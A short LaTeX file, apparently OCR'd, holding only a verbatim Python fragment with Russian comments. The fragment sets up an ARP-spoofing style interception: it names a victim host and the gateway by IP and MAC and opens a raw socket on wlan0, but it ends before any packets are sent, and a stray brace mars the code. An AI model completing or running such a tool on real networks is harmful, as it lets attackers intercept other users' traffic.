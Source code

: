 \documentclass[a4paper, 12pt]{report}
\begin{document}
		\begin{verbatim}
			import socket
			import time
			
			interface = "wlan0"  # Прослушиваемый сетевой интерфейс
			mac = b"\xbb\xbb\xbb\xbb\xbb\xbb"  # Наш MAC-адрес, он же bb:bb:bb:bb:bb:bb
			
			gateway_ip = socket.inet_aton("192.168.1.1")  # IP-адрес шлюза
			gateway_mac = b"\xaa\xaa\xaa\xaa\xaa\xaa"  # MAC-адрес шлюза
			
			victim_ip = socket.inet_aton("192.168.1.2")  # IP-адрес жертвы
			victim_mac = b"\xcc\xcc\xcc\xcc\xcc\xcc"  # MAC-адрес жертвы
			
			connect = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.htons(0x0800))
			connect.bind((interface, socket.htons(0x0800)));
			}
		\end{verbatim}
		
	 \printbibliography
	
\end{document}
